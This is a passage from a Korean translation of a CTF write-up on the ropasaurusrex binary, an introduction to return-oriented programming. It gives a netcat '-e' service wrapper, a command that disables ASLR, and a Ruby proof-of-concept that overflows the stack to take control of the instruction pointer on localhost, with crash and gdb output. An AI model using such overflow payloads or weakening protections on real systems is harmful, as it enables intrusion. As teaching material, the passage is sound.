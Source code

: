 
가장 먼저 해야 할 일은 `ropasaurusrex`를 네트워크 서비스로 실행시키는 겁니다.
CTF 주최 측은 [xinetd][]를 썼지만, 우리는 우리의 목적에 알맞은 [netcat][]을 쓸
겁니다.

[xinetd]: https://en.wikipedia.org/wiki/Xinetd
[netcat]: https://en.wikipedia.org/wiki/Netcat

``` sh
$ while true; do nc -vv -l -p 4444 -e ./ropasaurusrex; done
listening on [any] 4444 ...
```


이제부터 `localhost:4444`를 취약점 공격 대상으로 쓸 수도 있고, 실제 서버에도
작용하는지 테스트 할 수도 있습니다.


ASLR을 끄고 싶다면 다음을 실행하세요.

``` sh
$ sudo sysctl -w kernel.randomize_va_space=0
```


이건 당신의 시스템을 공격당하기 쉽게 만든다는 것에 유의하세요. 그러니 이걸
실험실 환경 바깥에서 하는 건 추천하지 않습니다!


취약점 공격 스크립트의 초기 버전을 작성한 루비 코드입니다.

``` ruby
$ cat ./sploit.rb
require 'socket'

s = TCPSocket.new("localhost", 4444)

# Generate the payload
payload = "A"*140 +
  [
    0x42424242,
  ].pack("I*") # Convert a series of 'ints' to a string

s.write(payload)
s.close()
```


`ruby ./sploit.rb`를 통해 실행시키면 서비스 크래시를 볼 겁니다.

``` sh
connect to [127.0.0.1] from debian-x86.skullseclabs.org [127.0.0.1] 53451
Segmentation fault (core dumped)
```


그리고 gdb를 통해 이게 알맞은 위치에서 크래시를 일으키는지 확인할 수 있습니다.

``` sh
gdb --quiet ./ropasaurusrex core
[...]
Program terminated with signal 11, Segmentation fault.
#0  0x42424242 in ?? ()
```


[SkullSecurity]: https://blog.skullsecurity.org
[Ron Bowes]: https://blog.skullsecurity.org/author/ron
[external-url]: https://blog.skullsecurity.org/2013/ropasaurusrex-a-primer-on-return-oriented-programming
[hindsight]: http://knowyourmeme.com/memes/captain-hindsight
[cnot]: https://blog.skullsecurity.org/blog/2013/epic-cnot-writeup-plaidctf
[ASLR]: https://en.wikipedia.org/wiki/Address_space_layout_randomization
[ROP]: https://en.wikipedia.org/wiki/Return-oriented_programming
[my writeup of cnot]: https://blog.skullsecurity.org/blog/2013/epic-cnot-writeup-plaidctf
[return into libc]: https://en.wikipedia.org/wiki/Return-to-libc_attack
[DEP]: https://en.wikipedia.org/wiki/Data_Execution_Prevention
[return]: https://en.wikipedia.org/wiki/Return_statement
[stack]: https://en.wikipedia.org/wiki/Call_stack
[my assembly tutorial]: https://wiki.skullsecurity.org/index.php/The_Stack
[Stack overflows]: https://en.wikipedia.org/wiki/Stack_overflow
[removed by the calling function]: https://en.wikipedia.org/wiki/X86_calling_conventions#cdecl
[except when they're not]: https://en.wikipedia.org/wiki/X86_calling_conventions#stdcall
[Book of Intel]: http://www.intel.com/content/www/us/en/processors/architectures-software-developer-manuals.html
[little endian]: https://en.wikipedia.org/wiki/Endianness
[0]: https://en.wikipedia.org/wiki/Zero_page
[pattern_create.rb]: https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_create.rb
[pattern_offset.rb]: https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_offset.rb
[libc]: https://en.wikipedia.org/wiki/C_standard_library
[stdin and stdout]: https://en.wikipedia.org/wiki/Standard_streams
[socket]: https://en.wikipedia.org/wiki/Network_socket
[.data]: https://en.wikipedia.org/wiki/Data_segment
[core dump]: https://en.wikipedia.org/wiki/Core_dump